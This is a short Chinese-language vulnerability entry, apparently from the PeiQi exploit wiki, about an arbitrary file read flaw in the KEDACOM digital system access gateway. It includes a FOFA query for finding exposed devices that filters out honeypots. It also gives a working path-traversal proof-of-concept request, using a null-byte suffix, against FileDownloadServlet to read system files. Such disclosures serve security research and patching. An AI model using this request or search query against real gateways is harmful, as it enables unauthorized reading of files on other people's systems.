 ```yaml
---
title: KEDACOM数字系统接入网关 任意文件读取漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - KEDACOM
---
```


# KEDACOM 数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

> [!NOTE]
>
> KEDACOM 数字系统接入网关

## FOFA

> [!NOTE]
>
> (app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)

## 漏洞复现

登录页面如下

![](/img/20210924015326378001.png)

使用POC读取 /etc/hosts

```
/gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```

![](/img/20210924015326568416.png)